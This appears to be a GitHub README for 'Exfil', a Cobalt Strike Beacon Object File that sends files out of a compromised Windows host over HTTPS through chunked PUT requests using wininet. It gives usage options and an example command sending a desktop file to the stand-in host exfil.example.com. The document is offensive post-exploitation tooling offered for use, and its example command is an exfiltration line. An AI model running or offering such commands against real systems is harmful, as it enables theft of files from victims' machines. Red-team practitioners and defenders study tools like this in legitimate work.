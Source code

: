 # Exfil BOF 
CS BOF used to exfil data over HTTPS via PUT request using wininet and chuncking.  

## BOF Usage
```
Usage: Exfil --File <filepath> --Site exfil.example.com --URI /exfil/file.txt < --UserAgent CustomString > 
Exfil Example: 
   Exfil --File C:\Users\Test\Desktop\important.txt --Site exfil.example.com --URI /exfil/path/customfilename.txt --UserAgent Exfil-Test 
Exfil Options: 
    --File, path to file for exfil 
    --Site, the server to perform the PUT request to  
    --URI, the path on the server to perform the PUT request to 
    --UserAgent, Optional useragent string to add to request 
```
